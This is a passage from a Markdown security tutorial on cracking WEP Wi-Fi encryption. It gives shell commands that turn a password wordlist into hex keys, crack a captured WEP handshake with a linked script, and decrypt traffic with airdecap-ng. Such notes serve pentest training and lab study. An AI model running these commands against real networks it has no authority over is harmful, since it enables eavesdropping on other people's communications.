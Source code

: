 <img src="./images/wep_attack_arp_replay.png" width="800"/>

##### Decrypt traffic
Once the key is retrieve attacker can decrypt traffic for other devices.  

- WireShark (GUI)
- Airdecap-ng (CLI)

###### WEP Cracking alternative
In case you don't have enought IVs to recover the key you can use dictionnary attack.  

Validate the current capture file
```
airodump-ng -r WEP-capture.cap
```

Creating the the hex wordlist from the password wordlist or use this [python script](https://gist.githubusercontent.com/tbhaxor/170894df0d43fd23eae49b0b20442c27/raw/3652d81819f13de7426167cf7390f051f5b30a4f/wep_decrypt.py)
```
for i in $(cat 1000000-password-seclists.txt); do echo $i | od -A n -t x1 | sed 's/ *//g'; done >> hex_wordlist.txt
python3 crack.py 1000000-password-seclists.txt WEP-Advanced.cap 00:21:91:D2:8E:25
```

Recover and decrypt traffic using hex(password) dictionnary and [airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng)
```
for hex in $(cat hex_wordlist.txt); do airdecap-ng -w $hex WEP-capture.cap; done
```
